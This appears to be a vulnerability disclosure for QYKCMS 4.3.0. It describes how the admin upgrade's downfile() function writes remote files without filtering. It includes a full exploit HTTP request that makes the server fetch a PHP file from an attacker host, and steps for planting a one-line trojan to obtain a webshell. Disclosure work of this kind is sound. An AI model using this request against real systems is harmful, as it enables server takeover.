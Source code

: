 qykcms_ 4.3.0\wwwroot\admin_ A vulnerability exists in the 645-657 line downfile() function in system  include  function.php, which uses file_ get_ Contents() reads $url, and then uses file_ put_ The contents() function performs a write operation, only determining whether the file exists, without filtering the file content, file source, and file suffix

![image](https://user-images.githubusercontent.com/79570367/225640907-2ebbd786-2b6c-449c-8619-c19e99e96f44.png)

Global search downfile() function
qykcms_ 4.3.0\wwwroot\admin_ system\include\lib\down.php
Line 4 calls the downfile () function directly without filtering

![image](https://user-images.githubusercontent.com/79570367/225641018-066d9a7c-9580-4de8-9173-46c91c8d2352.png)

Qykcms All background file operations are performed through  wwwroot  admin_ System  api.php. $tcz receives post data and generates an array

![image](https://user-images.githubusercontent.com/79570367/225641125-4116b2cb-6c60-4d09-8078-5b5549ced88d.png)

Use switch to judge log parameters

![image](https://user-images.githubusercontent.com/79570367/225641234-07fbc338-3770-43da-a7ec-c334a74b2ea0.png)

When the parameter log is down, include/lib/down.php is included and executed
The vulnerability point is in the system - upgrade system - automatic upgrade

![image](https://user-images.githubusercontent.com/79570367/225641291-54c48afa-9e63-4b6d-93b9-bd4c121581dc.png)

Packet:
POST /admin_system/api.php HTTP/1.1
Host: 192.168.57.1:81
Accept: */*
Accept-Encoding: gzip, deflate
Origin: file://
Accept-Language: zh-CN,en,*
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/535.2 (KHTML, like Gecko) Safari/535.2 wke/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Connection: close

admin=admin&key=3ba2d1dbeb29f11cf2fb44b77c8d19c1&log=down&downurl=http://192.168.57.2/&filename=1.php

Create a phpinfo file 1.php on the remote host and start the http.server service：

![image](https://user-images.githubusercontent.com/79570367/225641405-19cfe315-cc31-4c38-8cb9-54c8d4813b3a.png)

Send a request packet. The downurl is the IP+port of the vps, and the filename is the file name

![image](https://user-images.githubusercontent.com/79570367/225641500-309e108b-2dbb-4aaf-aaf0-5b6d7d35a510.png)

Access the returned path

![image](https://user-images.githubusercontent.com/79570367/225641571-4e48c4ff-7ed3-4121-bbbf-0fc79336043a.png)

Modify it to a one-sentence Trojan horse, send the data package to the server to download, and successfully obtain the webshell

![image](https://user-images.githubusercontent.com/79570367/225641703-295d58aa-82a3-468d-8439-4966c3f9633f.png)
